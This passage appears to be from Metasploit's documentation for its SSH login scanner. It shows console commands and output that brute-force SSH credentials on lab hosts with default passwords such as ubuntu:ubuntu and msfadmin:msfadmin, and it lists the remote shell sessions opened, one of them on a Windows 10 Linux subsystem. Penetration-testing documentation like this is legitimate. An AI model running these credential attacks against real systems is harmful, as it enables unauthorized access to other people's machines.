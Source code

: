 ```
[*] Command shell session 7 opened (192.168.2.117:32829 -> 192.168.2.156:22) at 2017-02-22 20:26:35 -0500
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 8 opened (192.168.2.117:42205 -> 192.168.2.156:22) at 2017-02-22 20:26:42 -0500
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 9 opened (192.168.2.117:37027 -> 192.168.2.137:22) at 2017-02-22 20:26:44 -0500
[*] Scanned 3 of 4 hosts (75% complete)
[*] Scanned 4 of 4 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -l

Active sessions
===============

  Id  Type          Information                              Connection
  --  ----          -----------                              ----------
  5   shell /linux  SSH msfadmin:msfadmin (192.168.2.46:22)  192.168.2.117:44415 -> 192.168.2.46:22 (192.168.2.46)
  6   shell /linux  SSH msfadmin:msfadmin (192.168.2.35:22)  192.168.2.117:36107 -> 192.168.2.35:22 (192.168.2.35)
  7   shell /linux  SSH root:ubuntu (192.168.2.156:22)       192.168.2.117:32829 -> 192.168.2.156:22 (192.168.2.156)
  8   shell /linux  SSH ubuntu:ubuntu (192.168.2.156:22)     192.168.2.117:42205 -> 192.168.2.156:22 (192.168.2.156)
  9   shell /linux  SSH ubuntu:ubuntu (192.168.2.137:22)     192.168.2.117:37027 -> 192.168.2.137:22 (192.168.2.137)
```

Example run against:

* Windows 10 w/ Linux Subsystem

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set rhosts 192.168.2.140
rhosts => 192.168.2.140
msf auxiliary(ssh_login) > set username winuser
username => winuser
msf auxiliary(ssh_login) > set password "badpassword"
password => badpassword
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'winuser:badpassword' ''
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.117:42227 -> 192.168.2.140:22) at 2017-02-22 20:40:12 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -l

Active sessions
===============

  Id  Type     Information                               Connection
  --  ----     -----------                               ----------
  1   shell /  SSH winuser:badpassword (192.168.2.140:22)  192.168.2.117:42227 -> 192.168.2.140:22 (192.168.2.140)
```